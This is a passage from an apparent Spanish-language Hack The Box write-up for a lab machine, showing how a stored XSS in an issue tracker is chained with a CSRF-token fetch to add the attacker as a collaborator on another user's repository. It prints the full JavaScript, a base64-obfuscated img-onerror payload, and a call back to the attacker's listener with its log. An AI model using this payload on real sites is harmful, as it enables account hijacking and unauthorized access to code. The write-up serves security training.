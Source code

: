 Después haremos una petición que nos agregue como colaboradores el repo de Charlie

```js
fetch(u).then(r => document.querySelector('meta[name=_csrf]').content).then(t => fetch(u,{method:'POST',headers: {'Content-Type':'application/x-www-form-urlencoded;'}, body:'collaborator=jean&_csrf='+t}))
```

Cuando nos haya agregado enviaremos una petición a nuestro host para saberlo

```js
then(d => fetch('http://10.10.14.48/ok
```

Finalmente quedaría algo así

```js
var u='http://dev.snippet.htb/charlie/backups/settings/collaboration';fetch(u).then(r => document.querySelector('meta[name=_csrf]').content).then(t => fetch(u,{method:'POST',headers: {'Content-Type':'application/x-www-form-urlencoded;'}, body:'collaborator=jean&_csrf='+t}).then(d => fetch('http://10.10.14.48/ok')))
```

Encodearemos toda la linea a base64 y agregaremos la parte del XSS, el payload nos quedaría algo así

```html
xss<xss><img SRC="x" onerror=eval.call`${"eval\x28atob`dmFyIHU9J2h0dHA6Ly9kZXYuc25pcHBldC5odGIvY2hhcmxpZS9iYWNrdXBzL3NldHRpbmdzL2NvbGxhYm9yYXRpb24nO2ZldGNoKHUpLnRoZW4ociA9PiBkb2N1bWVudC5xdWVyeVNlbGVjdG9yKCdtZXRhW25hbWU9X2NzcmZdJykuY29udGVudCkudGhlbih0ID0+IGZldGNoKHUse21ldGhvZDonUE9TVCcsaGVhZGVyczogeydDb250ZW50LVR5cGUnOidhcHBsaWNhdGlvbi94LXd3dy1mb3JtLXVybGVuY29kZWQ7J30sIGJvZHk6J2NvbGxhYm9yYXRvcj1qZWFuJl9jc3JmPScrdH0pLnRoZW4oZCA9PiBmZXRjaCgnaHR0cDovLzEwLjEwLjE0LjQ4L29rJykpKQo=`\x29"}`>
```

Podemos ir al apartado `issues`, pegar nuestro payload, crear un servidor http con python en el puerto 80 y esperar a que el usuario `Charlie` lo vea

![](/assets/img/HTB/Extension/XSS.png)

Si esperamos unos segundos, nos llegará una petición al servidor python que nos confirma que se ha completado el script

```sh
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.171 - - code 404, message File not found
10.10.11.171 - - "GET /ok HTTP/1.1" 404 -
```
